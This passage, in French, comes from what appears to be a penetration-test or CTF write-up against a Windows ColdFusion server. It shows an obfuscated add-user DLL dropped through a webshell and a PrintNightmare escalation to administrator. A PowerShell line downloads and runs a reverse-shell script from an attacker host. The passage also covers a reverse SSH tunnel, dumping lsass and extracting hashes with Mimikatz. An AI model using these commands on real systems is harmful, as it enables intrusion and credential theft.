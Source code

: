 À la place, j'ai récupéré [ce projet de DLL permettant d'ajouter un utilisateur sur le système](https://github.com/notdodo/adduser-dll). Je l'ai légèrement obfusqué et compilé. J'ai bien pris soin à ce que le fichier obtenu soit déposé sur le disque via le webshell et non par powershell pour éviter sa suppression.  

L'exploit powershell dispose d'une option pour spécifier son propre fichier DLL :  

```
PS C:\ColdFusion10\cfusion\bin> Invoke-Nightmare -DLL C:\ColdFusion10\cfusion\bin\coldfusion.dll 
PS C:\ColdFusion10\cfusion\bin> & cmd.exe /c net localgroup administrators 
Alias name administrators 
Comment Administrators have complete and unrestricted access to the computer/domain 

Members 

------------------------------------------------------------------------------- 
Administrator 
webadmin
devloop
The command completed successfully.
```

Et ça marche !  

J'ai ensuite eu des difficultés à obtenir un shell avec ce nouveau compte et j'obtenais des *Access denied* sans comprendre pourquoi (mes connaissances du pentest Windows restent à approfondir).  

Ainsi un `runas` via Powershell comme ceci :  

```
$password = ConvertTo-SecureString "hack2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential("target\devloop", $password) 
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object System.Net.webClient).downloadString('http://my_ip/ns/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress my_ip -Port 22" -Credential $cred -windowstyle hidden
```

Ou encore l'utilisation de [RunAsSpc](https://robotronic.de/guidance.html) échouaient :-/   

N'hésitez pas à éclairer ma lanterne si vous disposez d'une explication.  

J'ai résolu le problème en créant un [tunnel reverse SSH](https://github.com/Fahrj/reverse-ssh) sur le serveur puis en forwardant le port RDP. Il ne restait plus qu'à utiliser `xfreerdp` pour me connecter graphiquement au serveur.  

Trophé
------

Une fois administrateur, je peux lancer le gestionnaire de taches et créer un dump du processus `lsass.exe`. Une fois le dump téléchargé je peux en extraire des hashs avec `Mimikatz`.  
